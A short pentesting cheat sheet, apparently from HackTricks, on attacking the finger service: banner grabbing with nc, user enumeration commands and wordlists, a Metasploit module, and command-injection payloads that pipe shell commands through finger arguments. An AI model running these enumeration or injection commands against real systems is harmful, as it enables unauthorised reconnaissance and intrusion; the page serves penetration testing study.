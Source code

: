 https://hacktricks.boitatech.com.br/pentesting/pentesting-finger
#### Enumerate
Banner Grabbing
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

Search for exploits
```bash
searchsploit <ver>
```

User Enumeration
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user

# Automated
finger-user-enum.pl -U users.txt -t <target>
finger-user-enum.pl -u root -t <target>

# Wordlists
/usr/share/seclists/Usernames/Names/names.txt
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Metasploit
```msfconsole
use auxiliary/scanner/finger/finger_users
```


#### Command Execution
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
